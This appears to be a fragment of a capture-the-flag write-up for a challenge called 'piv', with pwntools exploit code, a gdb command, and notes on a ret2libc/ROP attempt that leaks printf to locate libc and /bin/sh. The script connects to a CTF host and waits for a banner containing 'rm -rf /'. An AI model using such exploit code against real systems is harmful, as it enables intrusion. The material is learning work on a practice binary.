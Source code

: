 ```

print("buf: "+str(hex(buf)))
buf = str(p32(buf))

pay1 = ""
pay1 += p32(libc_okbinsh)*53

print("Pay len: "+str(len(pay1)))
io.sendline(pay1)

io.interactive()

"""
ROP pointers
"""



```
Also 
```
gdb ./bsl
b *(least_fav+0x78)
run
```

piv
===============

Flag: not obtained (also)



General overview of problems faced
-------------------------------------
1. Rop gadget -> no "int 0x80"
2. IDA -> No win function

So what do we do? Rop2Libc, right?
1. Program leaks puts(*printf()) , of which the latter hex-digits yield 3 possible libc()'s'
2. Try ROP -> success
3. Calculate libc base addresses, add the potential /bin/sh gadgets, and we're done, right?
3.1 Try different bin/sh's and different libc()'s both offline and online -> no luck. Am I miscalculating something?

Script/Command used
------------------

```
#python2
from pwn import *

context.binary = './piv_it'

#io = process("./piv_it")
io = remote("plzpwn.me", 8002)

print("[]Waiting for ROOTURPC")
io.recvuntil("rm -rf /")
print("[]Waiting done")

io.recvuntil("Unexpected Error Encountered At:")
addr_printf = io.recvline().strip()
addr_printf_int = int(addr_printf,16)
print("[!]addr_printf: ["+addr_printf+"]")

"""
```